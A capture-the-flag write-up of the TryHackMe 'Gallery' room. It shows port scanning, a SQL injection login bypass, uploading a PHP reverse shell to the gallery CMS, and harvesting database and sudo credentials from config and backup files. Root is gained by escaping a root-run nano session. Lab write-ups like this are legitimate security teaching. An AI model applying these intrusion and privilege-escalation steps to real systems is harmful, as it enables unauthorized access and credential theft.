









#
**Date:** February 12th 2022

**Author:** j.info

**Link:** [**Gallery**](https://tryhackme.com/room/gallery666) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

## Objectives
- How many ports are open?
- What's the name of the CMS?
- What's the hash password of the admin user?
- What's the user flag?
- What's the root flag?

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sC -sV -A -T4 10.10.156.186`

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Simple Image Gallery System
```


This gives us the answer to the first objective: **How many ports are open?**

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.156.186:8080 -t 50 -r -x php,txt,html -b 200 -w dir-med.txt`

```
/user                 (Status: 500) [Size: 0]
/archives             (Status: 500) [Size: 0]
/uploads              (Status: 403) [Size: 280]
/assets               (Status: 403) [Size: 280]
/home.php             (Status: 500) [Size: 0]  
/report               (Status: 500) [Size: 1137]
/albums               (Status: 500) [Size: 0]   
/plugins              (Status: 403) [Size: 280]
/database             (Status: 403) [Size: 280] 
/classes              (Status: 403) [Size: 280] 
/dist                 (Status: 403) [Size: 280] 
/inc                  (Status: 403) [Size: 280] 
/build                (Status: 403) [Size: 280] 
/schedules            (Status: 500) [Size: 0]
```

<br>

## Website Digging

<br>

Visiting the main page at:

```
http://10.10.156.186/gallery/login.php
```

Will present you with a login page and give you the answer to the second objective: **What's the name of the CMS?**

<br>



<br>

I find the following over on [**Exploit Database**](https://www.exploit-db.com/exploits/50214)

<br>



<br>

And testing the SQL injection:

<br>



<br>



<br>

Looking around the website we're able to upload files in the **Albums** menu, so I decided to start with that. I upload an already configured reverse php shell to the existing **Album 104** folder, start a listener up on my system, and when clicking on the uploaded file get a shell back. Note: when you select upload it will default to image files only just choose all files and you can upload non image files.

<br>



<br>



<br>

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.156.186] 48404
Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 03:06:54 up 35 min,  0 users,  load average: 0.00, 0.25, 2.87
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
gallery
```

<br>

## System Enumeration

I check if python3 is on the system and it is so let's make our shell interactive:

- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- background our current connection
- `stty raw -echo; fg`

That's much better.

I check out the **/etc/passwd** file to see which users we have on the system and look at their groups:

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
mike:x:1001:1001:mike:/home/mike:/bin/bash

uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),30(dip),46(plugdev)
uid=1001(mike) gid=1001(mike) groups=1001(mike)
```

Looking around the web directories I find this:

```
www-data@gallery:/var/www/html/gallery$ cat initialize.php 
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

I try to log into the database as **dev_oretnom** and it does not work, but I am able to login as **gallery_user**:

`mysql -h localhost -D gallery_db -u gallery_user -p`

And then check out the users table:

```
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 99156
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [gallery_db]> show tables;
+----------------------+
| Tables_in_gallery_db |
+----------------------+
| album_list           |
| images               |
| system_info          |
| users                |
+----------------------+
4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users;
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
| id | firstname    | lastname | username | password                         | avatar                                   | last_login | type | date_added          | date_updated        |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
|  1 | Adminstrator | Admin    | admin    | a228b12a08b6527e7978cbe5d914531c | uploads/1629883080_1624240500_avatar.png | NULL       |    1 | 2021-01-20 14:02:37 | 2021-08-25 09:18:12 |
+----+--------------+----------+----------+----------------------------------+------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

And that gives us the answer to the third objective: **What's the hash password of the admin user?**

I try and crack the password hash but don't have any luck and decide to look around the system some more.

Looking in **/var** I notice a **backups** folder and look inside.

```
www-data@gallery:/var/backups/mike_home_backup$ cat .bash_history
cd ~
ls
ping 1.1.1.1
cat /home/mike/user.txt
cd /var/www/
ls
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
exit
```

And:

```
www-data@gallery:/var/backups/mike_home_backup/documents$ cat accounts.txt 
Spotify : mike@gmail.com:mycat666
Netflix : mike@gmail.com:123456789pass
TryHackme: mike:darkhacker123
```

<br>

## Mike

Those last accounts don't look very real but the sudo command from the **.bash_history** file above certainly looks promising. I try and switch over to **mike**:

```
www-data@gallery:/var/backups/mike_home_backup$ su mike
Password: 
mike@gallery:/var/backups/mike_home_backup$
```

I go and grab the user flag completing the fourth objective:

```
mike@gallery:/var/backups/mike_home_backup$ cd ~
mike@gallery:~$ ls
documents  images  user.txt
mike@gallery:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```

Let's check the obvious `sudo -l`:

```
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

<br>

## Root

That looks interesting let's go see what it does:

```
mike@gallery:/opt$ cat rootkit.sh 
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

The last option is definitely what we're looking for here. This **rootkit.sh** file is ran as root and we can easily break out of nano and retain those privileges.

`sudo /bin/bash /opt/rootkit.sh`

```
Would you like to versioncheck, update, list or read the report ? read
```

Taking a look at the **nano** section of [**GTFOBins**](https://gtfobins.github.io/gtfobins/nano/) shows us how to break out:

<br>



<br>



<br>

```
# whoami
root
```

Grabbing the **root.txt** flag:

```
# cd /root
# ls
report.txt  root.txt
# cat root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

<br>

And there we have it, all objectives complete!

<br>



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **SQLi** to bypass the website's login page
- Uploading a php based reverse shell and activating it
- Manual enumeration to find credentials
- Working with a **MariaDB** database
- Breaking out of a root started **nano** to escalate privileges

<br>

Many thanks to:
- [**Mikaa**](https://tryhackme.com/p/Mikaa) for creating this CTF.
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)